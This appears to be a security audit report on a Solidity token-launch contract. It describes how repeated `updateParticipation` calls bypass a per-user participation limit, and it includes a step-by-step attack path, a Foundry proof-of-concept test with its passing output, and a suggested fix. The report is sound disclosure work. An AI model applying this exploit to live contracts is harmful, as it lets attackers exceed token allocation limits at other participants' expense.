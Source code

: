Funny Gunmetal Pig

Medium

# Attackers can bypass the `MaxUserParticipationsReached` limit by calling updateParticipation multiple times.

### Summary

As implemented in the function `participate`, when `settings.finalizesAtParticipation` is false, the user is only allowed to participate once.

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L243-L249

```solidity
        EnumerableMap.Bytes32ToUintMap storage userTokens = _userTokensByLaunchGroup[request.launchGroupId];
        (, uint256 userTokenAmount) = userTokens.tryGet(request.userId);
        if (userTokenAmount > 0) {
            if (!settings.finalizesAtParticipation) {
                revert MaxUserParticipationsReached(request.launchGroupId, request.userId);  <@ check
            }
        }
```

Because as long as the user has participated once, the recorded `userTokenAmount` will be greater than 0, thus triggering the revert. However, when `settings.finalizesAtParticipation` is false, updateParticipation can be executed multiple times without any checks.  As a result, an attacker would be able to create multiple participations, thereby bypassing the `MaxUserParticipationsReached` limit.


### Root Cause

The function `updateParticipation` does not limit the number of times a user can participate.

### Internal Pre-conditions

1. settings.finalizesAtParticipation = false.

### External Pre-conditions

None

### Attack Path

1. The user first calls the function participate using `launchParticipationId` id1.
2. Generate two newLaunchParticipationId (id2, id3) according to id1 (prevLaunchParticipationId).
3. Call `updateParticipation` with id2.
4. Call `updateParticipation` with id3.

**If the newLaunchParticipationId generated each time is the same, then the attack can also be done like this:**

1. The user first calls the function participate using `launchParticipationId` id1.
2. Generate newLaunchParticipationId (id2) according to id1 (prevLaunchParticipationId).
3. Call `updateParticipation` with id2.
4. Request another updateParticipation signature with prevLaunchParticipationId = id2 and newLaunchParticipationId = id2, in order to update the token amont.
5. Call `updateParticipation` with id2.

### Impact

bypass the `MaxUserParticipationsReached` limit 

### PoC

Place the following code in Launch.UpdateParticipation.t.sol.

```solidity
    function test_UpdateParticipation_IncreaseAmount_twice() public {
        // Prepare update participation request
        // first update request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(1200);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        // second update request
        UpdateParticipationRequest memory updateRequest2 = _createUpdateParticipationRequest_with_newLaunchParticipationId(600, "newID2");
        bytes memory updateSignature2 = _signRequest(abi.encode(updateRequest2));

        vm.startPrank(user1);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount * 2);

        // Expect ParticipationUpdated event
        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user1,
            updateRequest.tokenAmount,
            address(currency)
        );

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        _verifyParticipationInfo(newInfo, updateRequest);
        ParticipationInfo memory oldInfo = launch.getParticipationInfo(updateRequest.prevLaunchParticipationId);
        assertEq(oldInfo.currencyAmount, 0);
        assertEq(oldInfo.tokenAmount, 0);

        // second update
        currency.approve(address(launch), updatedCurrencyAmount);
        launch.updateParticipation(updateRequest2, updateSignature2);
        ParticipationInfo memory newInfo2 = launch.getParticipationInfo(updateRequest2.newLaunchParticipationId);
        _verifyParticipationInfo(newInfo2, updateRequest2);


        // Verify total unique participants by launch group
        assertEq(launch.getNumUniqueParticipantsByLaunchGroup(testLaunchGroupId), 1);

        vm.stopPrank();
    }


    function _createUpdateParticipationRequest_with_newLaunchParticipationId(uint256 newTokenAmount, bytes32 newLaunchParticipationId)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: newLaunchParticipationId,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
```

Output:

```shell
forge test --mt test_UpdateParticipation_IncreaseAmount_twice -vvv:58  

Ran 1 test for test/Launch.UpdateParticipation.t.sol:LaunchUpdateParticipationTest
[PASS] test_UpdateParticipation_IncreaseAmount_twice() (gas: 417003)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.11ms

Ran 1 test suite in 7.11ms: 1 tests passed, 0 failed, 0 skipped (1 total tests) 
```

### Mitigation

Limit the number of times a user can call updateParticipation. For example, check whether the token amounts of the previous participation is equal to 0.